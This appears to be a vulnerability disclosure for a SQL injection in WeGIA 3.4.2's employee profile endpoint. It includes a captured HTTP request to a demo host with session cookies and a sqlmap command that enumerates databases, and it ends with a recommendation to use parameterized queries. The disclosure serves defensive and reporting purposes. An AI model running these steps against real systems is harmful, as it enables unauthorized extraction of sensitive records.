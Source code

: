 VIDEO POC: https://youtu.be/W648Rq4_DnE

Vulnerability Type: SQL Injection (Union-based / Error-based exfiltration)

#Affected Application: WeGIA version 3.4.2

#Vulnerable Endpoint: /html/funcionario/profile_funcionario.php?id_funcionario={ID}

#Vulnerable Parameter: id_funcionario (expected to be numeric, but unsafely concatenated into the query)

#Impact: Full exfiltration of database content (database names, tables, columns, sensitive records). Severe confidentiality breach and potential total data compromise.

🔧 PoC Step-by-Step

1 - Authentication:
Log into the WeGIA 3.4.2 platform with valid credentials (e.g., administrator account).

![image](https://github.com/user-attachments/assets/330d5f02-c10d-45c5-b541-b0d9cacbb4ed)

2 - Prepare a Test Record:
If necessary, register a new employee to obtain a controlled id_funcionario.

![image](https://github.com/user-attachments/assets/498ed9b6-b393-4c8c-9648-043c8054a348)

![image](https://github.com/user-attachments/assets/ce0a6536-5963-4b56-829c-1669f36712f2)

3 - Intercept and Save the Request:

![image](https://github.com/user-attachments/assets/035286ba-ea6f-4517-9b1d-ee7d1d861914)

4 - Access the employee profile page for a given ID, for example:

![image](https://github.com/user-attachments/assets/0dd122c3-d42d-40a8-a6db-e01cbc428805)

GET /html/funcionario/profile_funcionario.php?id_funcionario=2 HTTP/2  
Host: demo.wegia.org  
Cookie: _ga=GA1.1.620166737.1749629529; PHPSESSID=elbvoreo9ua2cs8812amnokbdc; _ga_F8DXBXLV8J=GS2.1.s1750752029$o5$g1$t1750752048$j41$l0$h0  
Accept-Language: pt-BR,pt;q=0.9  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Dest: document  
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"  
Sec-Ch-Ua-Mobile: ?0  
Sec-Ch-Ua-Platform: "Windows"  
Referer: https://demo.wegia.org/html/funcionario/informacao_funcionario.php  
Accept-Encoding: gzip, deflate, br  
Priority: u=0, i  

Use a proxy tool (Burp Suite, OWASP ZAP, etc.) to intercept and save this request in a file, e.g., request.txt.

5 - Run sqlmap with the Saved Request:

![image](https://github.com/user-attachments/assets/2494d08b-f54d-4f82-9562-4e65010cf5c7)

Execute sqlmap pointing to the saved file, testing injection and enumerating databases:

#sqlmap -r request.txt --batch --dbs

Sqlmap identifies the injection point in id_funcionario and confirms that the database is MySQL/MariaDB.

6 - After processing, sqlmap or manual analysis reveals existing databases, such as information_schema and wegia.

![image](https://github.com/user-attachments/assets/34720bfa-070c-4afc-b3ca-10f6997a5769)
![image](https://github.com/user-attachments/assets/ae20df66-b567-4af2-9b38-d0b184d18b00)



⚠️ Recommendations & Mitigations

Prepared Statements / Parameterized Queries:
Always use bound parameters for id_funcionario instead of directly concatenating it into SQL.
